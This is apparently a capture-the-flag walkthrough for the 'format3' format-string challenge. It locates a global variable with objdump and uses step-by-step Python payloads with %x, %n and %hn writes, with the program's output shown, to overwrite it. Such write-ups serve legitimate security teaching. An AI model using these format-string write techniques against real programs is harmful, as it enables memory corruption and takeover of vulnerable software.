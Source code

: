 Using `objdump -t` we can see where is the variable `target` is located.
```bash
objdump -t format3 | grep target
080496f4 g     O .bss	00000004              target
```
So the global variable `target` is located at `080496f4`.

The next step is when encountering format string vulnerbility, it's good to just throw hex format with reasonable amount of format in order to dump the stack, and see where our argument appeared. 
```bash
./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "AAAA" + "%x "*20)') | grep --color=always -e "^" -e "80496f4"
�AAAA0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 80496f4 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825
target is 00000000 :(
```

The fact that we see `80496f4` `target` means we’ve successfully located the position in the stack where our input is being placed.

```bash
./format3 <<< $(python -c 'print("\xf4\x96\x04\x08"+ "%x "*12)') | grep --color=always -e "^" -e "80496f4"
�0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 80496f4
target is 00000000 :(


./format3 <<< $(python -c 'print("\xf4\x96\x04\x08"+ "%x "*11)') | grep --color=always -e "^" -e "80496f4"
�0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614
target is 00000000 :(
```

Next we need to make that `80496f4` equal to `0x01025544` or `16930116` in decimal. We can do like:

```bash
./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "%x "*11 + "%21828x%12$n")')
target is 00005590 :(


./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "%x "*11 + "%21752x%12$n")')
target is 00005544 :(
```

```bash
./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21828x%11$hn")')
target is 0000554c :(

./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$hn")')
target is 00005544 :(


./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$hn" + "%258x%13$hn")')
```


Finally the solution:
```bash
./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$hn" + "%43966x%13$hn")')
you have modified the target :)
```
